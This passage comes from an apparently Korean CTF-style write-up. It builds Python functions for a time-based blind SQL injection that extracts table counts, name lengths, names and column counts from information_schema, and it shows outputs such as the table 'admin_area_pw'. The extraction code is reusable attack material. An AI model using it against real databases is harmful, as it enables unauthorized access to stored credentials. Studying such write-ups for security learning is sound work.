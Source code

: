 ```python
		arr.append(self._query_time(query))
	return arr
	
def solve(self) -> None:
	table_count = self._get_table_count()
	table_names_len = self._get_table_name_len(table_count)
	print("Number of Tables:", table_count)
	print("Length of Each Tables:", table_names_len)
```

```
# result
Number of Tables: 2
Length of Each Tables: [13, 3]
```

이번에는 전에 알아냈던 테이블 개수를 이용해서 각 테이블 이름의 길이를 알아내는 함수를 작성했다. 이를 적용해 코드를 돌리면 각 테이블 이름의 길이가 13과 3이라는 것을 알 수 있게 된다.<br />
해당 함수에서 for문으로 테이블 개수만큼 반복해주고 `limit {i}, 1`를 이용해서 길이를 받게되는 원리이다.
#### 테이블 이름 구하기
```python
def _get_table_names(self, lens: list[int]) -> list[str]:
	arr = []
	for i in range(len(lens)):
		temp_name = ""
		for j in range(1, lens[i] + 1):
			query = f"(SELECT ascii(substr(table_name, {j}, 1)) from information_schema.tables where table_schema=database() limit {i}, 1)"
			temp_name += chr(self._query_time(query))
		arr.append(temp_name)

	return arr


def solve(self) -> None:
	table_count = self._get_table_count()
	print("Number of Tables:", table_count)

	table_names_len = self._get_table_name_len(table_count)
	print("Length of Each Tables:", table_names_len)

	table_names = self._get_table_names(table_names_len)
	print("Names of Each Tables:", table_names)
```

```
# result
Number of Tables: 2
Length of Each Tables: [13, 3]
Names of Each Tables: ['admin_area_pw', 'log']
```

이번 함수는 이 전에 알아낸 정보 (테이블이 총 2개라는 것과 각 테이블의 길이가 13과 3이라는 것)을 이용해서 테이블의 실제 이름이 무엇인지 알아내는 역할을 한다.
코드의 결과를 보면 `'admin_area_pw'`이 있는 것을 알 수 있는데 아마도 이 테이블에 있는 값을 확인해보면 admin의 비밀번호가 무엇인지 알아낼 수 있을 것 같은 강력한 느낌이 든다.
### 테이블에 들어있는 정보를 구하는 함수
#### 테이블의 컬럼 수 구하기
```python
def _get_column_count(self, table_name: str) -> int:
	query = f'(SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name="{table_name}")'
	return self._query_time(query)

def solve(self) -> None:
	table_count = self._get_table_count()
```